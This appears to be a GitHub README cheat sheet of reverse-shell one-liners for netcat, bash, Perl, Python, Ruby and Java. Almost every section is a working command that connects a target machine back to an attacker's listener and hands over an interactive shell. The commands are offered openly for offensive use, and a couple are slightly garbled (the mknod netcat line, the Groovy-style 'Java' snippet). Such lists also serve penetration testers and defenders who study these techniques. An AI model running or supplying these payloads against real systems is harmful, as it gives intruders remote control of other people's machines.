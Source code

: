 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box 

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  

### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'   

### 6. Java

This is a pretty obscure / esoteric method but there might be a chance you might come across using this  (probably during a web app file upload vuln ? )
	r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()